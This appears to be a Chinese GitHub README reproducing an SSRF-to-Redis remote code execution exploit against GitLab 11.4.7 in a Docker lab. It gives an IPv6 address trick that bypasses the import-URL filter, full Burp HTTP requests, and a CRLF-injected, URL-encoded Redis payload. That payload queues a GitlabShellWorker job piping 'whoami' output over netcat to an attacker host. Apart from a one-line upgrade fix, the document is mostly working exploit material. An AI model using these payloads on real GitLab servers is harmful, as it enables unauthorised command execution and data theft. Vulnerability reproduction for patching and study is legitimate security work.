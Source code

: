# gitlab-ssrf-redis-rce


------

## 漏洞描述

GitLab 为社区版和企业版发布了 11.3.1、11.2.4 和 11.1.7 安全修复版本。这些版本包含许多重要的安全修复程序，强烈建议立即将所有 GitLab 升级到其中一个版本。其中包含了SSRF漏洞 ，配合上redis 可执行命令。

------

## 受影响的产品

gitlab 11.4.7

------

## 漏洞复现

直接利用docker来搭建，官方有镜像，并启动redis，在服务器A上搭建。

```
cd gitlab-docker
docker-compose up -d
```

完成后可以使用`docker ps`查看是否启动成功

![](./img/1.png)

访问http://ip:5080/ 先注册一个账号并登陆 。然后点 New project - Import project - Repo by URL

![](./img/2.png)

![](./img/3.png)

`Git repository URL`处存在SSRF，使用ipv6地址绕过过滤。
测试下，首先先进入到gitlab容器,命令如下
```
[root@localhost gitlab-docker]# docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                 PORTS                                                                NAMES
e99725e303d6        gitlab/gitlab-ce:11.4.7-ce.0   "/assets/wrapper"   5 hours ago         Up 5 hours (healthy)   0.0.0.0:5022->22/tcp, 0.0.0.0:5080->80/tcp, 0.0.0.0:50443->443/tcp   gitlab-docker_web_1_35bc6d53be82
[root@localhost gitlab-docker]# docker exec -it e99725e303d6 /bin/bash
root@gitlab:/# 
```
使用nc监听下，需要先下载nc
```
apt update && apt install -y netcat
nc -lvp 1234
```

发送payload
`git://[0:0:0:0:0:ffff:127.0.0.1]:1234/aaa/ssrf.git`

BURP
```
POST /projects HTTP/1.1
Host: 172.16.200.221:5080
Content-Length: 370
Cache-Control: max-age=0
Origin: http://172.16.200.221:5080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.200.221:5080/projects/new
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: sidebar_collapsed=false; _gitlab_session=23fe696ca8e5e02e35b0aadce244cc24; event_filter=all
Connection: close

utf8=%E2%9C%93&authenticity_token=bpgrEbRhSvwWGzqQyENG0xL7%2BVsiL64wFohfGSnIWMM7144hEmhVlV4bIIICrc8jhK30btP4hdJLB59uYsl4nw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:1234/aaa/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=asa1xsx&project%5Bnamespace_id%5D=2&project%5Bpath%5D=sassxx&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

![](./img/4.gif)

测试可以访问本地的1234端口 ，所以也可以访问redis的6379端口，并使用redis达到命令执行

[@ jobertabma](https://twitter.com/jobertabma)的[PAYLOAD](https://hackerone.com/reports/299473)

```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc xxx.xxx.xxx.xxx 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```

`xxx.xxx.xxx.xxx`换成远程服务器B（攻击端）的IP地址

远程服务器B开启nc监听
```
nc -lvvp 1234
```

所以我们构造的最终payload(url编码)
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cwhoami%20%7C%20nc%20xxx%2Exxx%2Exxx%2Exxx%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```

burp
```
POST /projects HTTP/1.1
Host: 172.16.200.221:5080
Content-Length: 981
Cache-Control: max-age=0
Origin: http://172.16.200.221:5080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.200.221:5080/projects/new
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: sidebar_collapsed=false; _gitlab_session=23fe696ca8e5e02e35b0aadce244cc24; event_filter=all
Connection: close

utf8=%E2%9C%93&authenticity_token=bpgrEbRhSvwWGzqQyENG0xL7%2BVsiL64wFohfGSnIWMM7144hEmhVlV4bIIICrc8jhK30btP4hdJLB59uYsl4nw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cwhoami%20%7C%20nc%20xxx%2Exxx%2Exxx%2Exxx%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=asa1sx&project%5Bnamespace_id%5D=2&project%5Bpath%5D=sassx&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

![](./img/5.gif)

复现成功

------

## 修复方案

将gitlab升级到最新版本


## 参考文章

* https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
* https://github.com/jas502n/gitlab-SSRF-redis-RCE
